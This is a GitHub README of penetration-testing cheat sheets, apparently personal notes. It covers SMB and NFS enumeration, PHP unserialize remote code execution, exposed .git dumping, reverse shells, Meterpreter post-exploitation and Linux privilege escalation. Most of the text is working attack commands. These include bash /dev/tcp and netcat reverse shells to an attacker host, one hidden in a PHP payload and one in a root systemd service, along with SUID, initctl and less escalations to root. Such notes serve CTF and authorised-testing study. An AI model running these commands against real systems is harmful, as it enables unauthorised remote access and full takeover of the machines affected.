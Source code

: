 # CyberCheatSheets
Reference Sheets / Notes of techniques learned

## Enumeration:
+ <b>Samba - Shares & Users</b>
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.0.1
```

+ <b>NFS - Mounts</b>
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 192.168.0.1
```

## Web Apps:
+ <b>Check for vhost routing, modify /etc/hosts</b>
+ <b>.php files may have .bak (backup)</b>
+ <b>RCE via PHP Unserialize</b>
```
https://notsosecure.com/remote-code-execution-via-php-unserialize/
+ serialize as necessary as a parameter
public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/192.168.0.1/4242 0>&1\'"); ?>';
```
+ <b>Check for insecure redirects</b>
Open up ZAP/Burpsuite, capture the 302 response, change the status code from 302 to 200 and change the location field.

![image](https://user-images.githubusercontent.com/34889665/120560666-1e5e2680-c3d1-11eb-8d61-7dbd590ab5e5.png)
+ <b>Check for exposed /.git directory</b> 

Clone repository:
```bash
wget --mirror -I .git TARGET.COM/.git/ 
```

Get files from last commit:
```bash
git checkout -- .
```

Check out commit log:
```bash
git log
```

Check out previous commit:
```bash
git checkout 123456789
```

## Reverse Shells:
+ <b>Listen for ping (ICMP echo)</b>
``` console
$ tcpdump -i <interface> icmp
```


+ <b>Netcat - Listener</b>
```console
$nc -nvlp 4242
```

+ <b>Netcat - Connecting to Listener</b>
```console
nc -e /bin/sh 192.168.0.1 4242
```

+ <b>Netcat - Connecting to Listener without `-e`</b>
```console
$mknod /tmp/backpipe p
$/bin/sh 0</tmp/backpipe | nc <attacker_ip> 4242 1>/tmp/backpipe
```
+ <b>Metasploit - Listener</b>
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
OR
set PAYLOAD linux/x86/shell/reverse_tcp
set LHOST 192.168.0.1
set LPORT 4242
run
```

## Upgrading/Stablizing Shells:

+ <b>Shell To Meterpreter</b>
```bash
(After shell has been backgrounded in Metasploit)
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
(OR)
sessions -u 1
```

+ <b>Using Python</b>

*Upgrading:*
```console
python -c ‘import pty;pty.spawn(“/bin/bash”)’
$export TERM=xterm
```

*Stablizing:*
```console
$^Z
$stty raw -echo; fg
(ENTER)
```
## Post-Meterpreter Shell To-Do's:
+ <b>Background Meterpreter Session</b>
```console
^Z
Y
```
+ <b>Use Local Exploit Suggester</b>
```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

### Windows Target:
+ <b>Get System Info (from meterpreter session)</b>
```
sysinfo
```

+ <b>Get System Info (standard shell) *look for hotfixes*</b>
```
systeminfo
```

## Enumeration:
+ <b>LinPEAS</b>
```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
```


## Privilege Escalation:

+ <b>/sbin/initctl</b>
```
Check current status of services
sudo -u root /sbin/initctl list
```
```
Add this to test.conf
script
    chmod +s /bin/bash
end script
```
```
sudo /sbin/initctl start test.conf
$/bin/bash -p
#whoami
```

+ <b>less</b>
```
less [file in path user is allowed to execute less as root with]
!/bin/sh
```

+ <b>Add '.' to $PATH</b>
```
PATH=.:${PATH}
```

+ <b>Check for processes running as root</b>
```
ps -aux | grep root
```

+ <b>Check for world writable files</b>

```
find / -perm -2 -type f 2>/dev/null
```


+ <b>`/bin/systemctl` SUID</b>

*Check if `/bin/systemcl` is exploitable*
```
find / -perm -u=s -type f 2>/dev/null
```
or
```
find / -perm -4000 2>/dev/null
```

*Write service file with printf (will be written to `/tmp/root.service`)*
```
printf '[Unit]\nDescription=root\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.0.1/4242 0>&1"\n\n[Install]\nWantedBy=multi-user.target\n' > /tmp/root.service
```

*Enable and start the service*
```
systemctl enable /tmp/root.service
systemctl start root
```
